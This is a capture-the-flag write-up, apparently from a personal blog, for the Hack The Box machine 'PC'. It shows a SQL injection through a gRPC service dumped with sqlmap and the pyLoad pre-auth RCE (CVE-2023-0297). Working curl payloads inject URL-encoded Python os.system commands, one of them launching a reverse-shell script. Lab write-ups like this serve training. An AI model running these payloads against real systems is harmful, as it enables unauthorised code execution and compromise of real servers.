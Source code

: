 ```yaml
---
layout: single
title: PC - Hack The Box
date: 2023-06-30
excerpt: "PC is easy machine from hackthebox. in the initial foothold we can interact on port 50051 which is gRPC. we can use grpcui to get a good interface. then followed by registering the user using the login method. after logging in using the credentials we created, we can use get-info by filling in our id and token. capture the request and name the file pc.req. drop it into sqlmap so it does the rest. to get root privileges, there is a cve on the pyload. The content-length header has a big impact on the application pyload."
header:
  teaser: /assets/img/pc/PC.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Linux
    - Prototype Pollution
    - Fastcgi
    - php-fpm
    - Path Traversal
    - RCE
    - Redis
    - Session Handler
toc: true
toc_sticky: true
---
```

![](/assets/img/pc/PC.png)

## Synopsis

PC is easy machine from hackthebox. in the initial foothold we can interact on port 50051 which is gRPC. we can use grpcui to get a good interface. then followed by registering the user using the login method. after logging in using the credentials we created, we can use get-info by filling in our id and token. capture the request and name the file pc.req. drop it into sqlmap so it does the rest. to get root privileges, there is a cve on the pyload. The content-length header has a big impact on the application pyload.

## Portscan

```powershell
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.92%I=7%D=6/30%Time=649F372B%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## GRPC

gRPC is a modern open source high performance Remote Procedure Call (RPC) framework that can run in any environment.
i read about grpc running using port 50051, we can use [grpcurl](go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest) or [grpcui](go install github.com/fullstorydev/grpcui/cmd/grpcui@latest) for use interface instead.

tag -plaintext for connection without tls

```bash
grpcui -plaintext $target:50051
```
we can register in here then logged in use tester:tester in this case.

![](/assets/img/pc/1.png)

and we will retrieve token after that. use method `get info` then capture request with burp save it and let the sqlmap do the rest.

my request like below:

```http
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:34455
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: Sct2TMwrU2mYbQq3e2N0xJhO2ICQTbFx-yVpYUj5gp4
X-Requested-With: XMLHttpRequest
Content-Length: 215
Origin: http://127.0.0.1:34455
DNT: 1
Connection: close
Referer: http://127.0.0.1:34455/
Cookie: lang=en-US; remember_token=2|3028567ce92aa92bc374275d05caa7fa36e51f796f6f1f12423cf0df18359f7ab8c1fc75fff9af9b83b2294f03368376bbf685eb3ff347c34c0d8db097b573dd; _grpcui_csrf_token=Sct2TMwrU2mYbQq3e2N0xJhO2ICQTbFx-yVpYUj5gp4
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGVyIiwiZXhwIjoxNjg4MTY3OTcxfQ.qujbZNDV87BlQnPKOMKh1wJ74qe-CAIVL745OyKt9Zo"}],"data":[{"id":"212'"}]}

```

sqlmap command for dump databases

```bash
sqlmap -r pc.req --batch --dump
```

result from sqlmap

![](/assets/img/pc/2.png)

from now we can login via ssh for stable shell

![](/assets/img/pc/3.png)

execute command `ss -tln` for check interface running on localhost

![](/assets/img/pc/4.png)

found port 8000 running in localhost, forwarding port 8000 using ssh with command:

```bash
ssh sau@$target -L 8000:127.0.0.1:8000
```

![](/assets/img/pc/5.png)

login with `admin:admin` or `sau:password` withouth any luck. **pyLoad** was developed to run on NAS, next-gen routers and headless home servers, whatever device able to connect to internet and supporting the Python programming language, so it's available for all kind of operating systems and a wide range of hardware platforms; you can even install on your PC or Mac if you want and control it entirely by web in the same way.

execute this command below will make a file with name pwned in folder /tmp

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

![](/assets/img/pc/6.png)

this exploit need url encoding, so im gonna make reverse shell on /tmp folder given name exploit contain:

![](/assets/img/pc/7.png)

so with that we can gain root access easily, im telling you if you struggle with this stuff. the key is on CONTENT-LENGTH header. Because payload that can be used is relative long or short. in this case my payload before url-encoding:

```
pyimport os;os.system("/bin/bash /tmp/exploit")
```

so im tried to increase the content-length into 200 and get the shell. if you dont increase the header, it wont work.

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 200' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2f%74%6d%70%2f%65%78%70%6c%6f%69%74%22%29;f=function%20f2(){};&passwords=aaaa' \
	$'http://127.0.0.1:8000/flash/addcrypted2'
```

![](/assets/img/pc/8.png)


# Refferencess

```
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
https://pyload.net/
https://www.picussecurity.com/resource/blog/waf-bypass-using-json-based-sql-injection-attacks
https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf
https://www.revshells.com/
https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/
```